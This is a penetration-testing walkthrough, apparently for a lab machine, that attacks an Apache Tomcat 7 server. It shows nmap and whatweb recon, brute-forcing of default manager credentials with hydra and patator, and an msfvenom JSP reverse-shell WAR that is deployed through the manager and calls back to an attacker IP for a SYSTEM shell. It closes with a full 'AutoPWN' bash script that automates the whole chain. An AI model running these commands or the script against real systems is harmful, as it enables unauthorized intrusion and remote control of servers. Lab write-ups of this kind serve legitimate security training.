

# Tomcat Manager

## Recon

Tomcat is running with an HTTP Proxy:

```bash
❯ nmap -p- -n -Pn --min-rate 5000 -oG scans/nmap-tcpfast 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:53 EDT
Nmap scan report for 10.10.10.95
Host is up (0.083s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.47 seconds
```

Apache Tomcat has been found:

```bash
❯ sudo nmap -sCV -p 8080 -n -Pn -oG scans/nmap-tcpscripts 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:56 EDT
Nmap scan report for 10.10.10.95
Host is up (0.078s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.86 seconds
```

## Web Fingerprinting

We can use curl to enumerate the headers:

```bash
❯ curl -I http://10.10.10.95:8080
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: text/html;charset=ISO-8859-1
Transfer-Encoding: chunked
Date: Sun, 15 Aug 2021 01:28:24 GMT
```

With _**whatweb**_ we can identify multiple web technologies:

```bash
❯ whatweb -a 3 -v http://10.10.10.95:8080
WhatWeb report for http://10.10.10.95:8080
Status    : 200 OK
Title     : Apache Tomcat/7.0.88
IP        : 10.10.10.95
Country   : RESERVED, ZZ

Summary   : HTML5, Apache, HTTPServer[Apache-Coyote/1.1]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        String       : Apache-Coyote/1.1 (from server string)

HTTP Headers:
        HTTP/1.1 200 OK
        Server: Apache-Coyote/1.1
        Content-Type: text/html;charset=ISO-8859-1
        Transfer-Encoding: chunked
        Date: Sun, 15 Aug 2021 01:28:13 GMT
        Connection: close
```

## Tomcat

The tomcat default web page is the following:


HTTP Basic Authentication in Tomcat:


The HTTP Authorization header after submitting credentials:


Base64 Decode the value of the Authorization header:


Decode in Bash:

```bash
❯ echo -n 'dG9tY2F0OnMzY3JldA==' | base64 -d
tomcat:s3cret
```

Encode in Bash:

```bash
❯ echo -n 'tomcat:s3cret' | base64
dG9tY2F0OnMzY3JldA==
```

**Server Manager** and **Manager App:**


**Host Manager:**


### Tomcat After Failed Authentication

When we visit another manager directory the authorization header is automatically prepended however, the other directory has different credentials so we receive an HTTP 401 unauthorized status code. We have to remove the following header highlighted in red:



After removing the Authorization header we will be prompted with HTTP Basic Authentication prompt:


### Tomcat Bruteforce

#### hydra

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:20:53
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:20:55
```

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:28:36
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:28:38
```

#### patator

```bash
patator http_fuzz auth_type=basic url=http://10.10.10.95:8080/manager/html user_pass=FILE0 0=/opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -x ignore:code=401
```

### Tomcat Manager App Reverse Shell


I’ll use msfvenom to create a windows reverse shell that can be caught with nc:

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.14 LPORT=1234 -f war -o revshell.war
```

I’ll also need to know the name of the JSP page to activate it with curl. I’ll use jar to list the contents of the war.

```
❯ jar -ft rev_shell-9002.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
qduissimtg.jsp
```

> Note: qduissimtg.jsp is the file that we'll need to execute after we upload the WAR file.

I'll set up a listener with nc:

```
❯ nc -lvnp 9002
```

Now upload through the manager application:


Then curl the page at:

```
❯ curl http://10.10.10.95:8080/rev_shell-9002/qduissimtg.jsp
```

We receive a reverse shell:

```
❯ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.185] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

An alternative way to upload a file with curl:

```bash
curl --upload-file revshell.war -u 'tomcat:s3cret' "http://10.10.10.95:8080/manager/text/deploy?path=/ShellNameHere&update=true"
```

An alternative way to get a shell:

```bash
curl -i "http://10.10.10.95:8080/ShellNameHere" -L
```

### Tomcat AutoPWN

```bash
#!/bin/bash

echo "[+] Generating a Reverse Shell"
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.14 LPORT=1234 -f war -o rev_shell_1234.war &>/dev/null
echo "[+] Enabling job control (this prevents the shell from dying)"
set -m &>/dev/null
echo "[+] Uploading the reverse shell file"
curl --upload-file rev_shell_1234.war -u 'tomcat:s3cret' "http://10.10.10.95:8080/manager/text/deploy?path=/shell&update=true" &>/dev/null
echo "[+] Setting up a nc listener on port 1234."
nc -lvnp 1234 &
echo "[+] Requesting the Reverse Shell."
curl "http://10.10.10.95:8080/shell" -L &>/dev/null
fg %1
```

## Tomcat Credentials

The default tomcat credentials location is the following:

```
cat /usr/share/tomcat*/conf/tomcat-users.xml
```
